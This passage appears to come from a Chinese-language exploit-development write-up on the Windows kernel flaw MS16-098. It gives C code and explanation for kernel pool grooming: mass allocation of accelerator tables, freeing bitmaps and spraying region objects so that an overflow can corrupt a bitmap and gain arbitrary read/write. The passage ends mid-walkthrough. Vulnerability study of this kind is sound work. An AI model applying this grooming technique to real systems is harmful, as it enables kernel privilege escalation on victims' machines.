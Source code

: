 ![image-20201022161800938](MS16-098.assets/image-20201022161800938.png)

#### Step 2

```C
   // Allocating 7000 accelerator tables of size 0x40 0x40 *2 = 0x80 filling in the space at end of page.
        HACCEL *pAccels = (HACCEL *)malloc(sizeof(HACCEL) * 7000);
        HACCEL *pAccels2 = (HACCEL *)malloc(sizeof(HACCEL) * 7000);
        for (INT i = 0; i < 7000; i++) {
                hAccel = CreateAcceleratorTableA(lpAccel, 1);
                hAccel2 = CreateAcceleratorTableW(lpAccel, 1);
                pAccels[i] = hAccel;
                pAccels2[i] = hAccel2;
        }
```

然后，分配7000个`accelerator table objects(Usac)`，每个Usac的大小为0x40。所以申请2个大小就是0x80，这样结合之前的分配，会把整个页面填充满。(0xf80+0x80=0x1000)

#### Step 3

```C
  // Delete the allocated bitmaps to free space at beginning of pages
        for (int k = 0; k < 5000; k++) {
                DeleteObject(bitmaps[k]);
        }
```

释放每个页上之前分配大小为0xf80的object。

#### Step 4

```C
 //allocate Gh04 5000 region objects of size 0xbc0 which will reuse the free-ed bitmaps memory.
        for (int k = 0; k < 5000; k++) {
                CreateEllipticRgn(0x79, 0x79, 1, 1); //size = 0xbc0
        }
```

分配5000个大小为0xbc0的`region objects`（Gh04），这个大小是必要的：如果bitmap直接和我们的`vuln object`相邻，溢出的时候就会无法覆盖到我们想要的结构体成员。可以用`GetBitmapBits/SetBitmapBits`来实现`bitmap object`的内存读写。同样计算大小可以通过` CreateEllipticRgn`函数进行试错。

此时，每个页面上的内存布局如下：
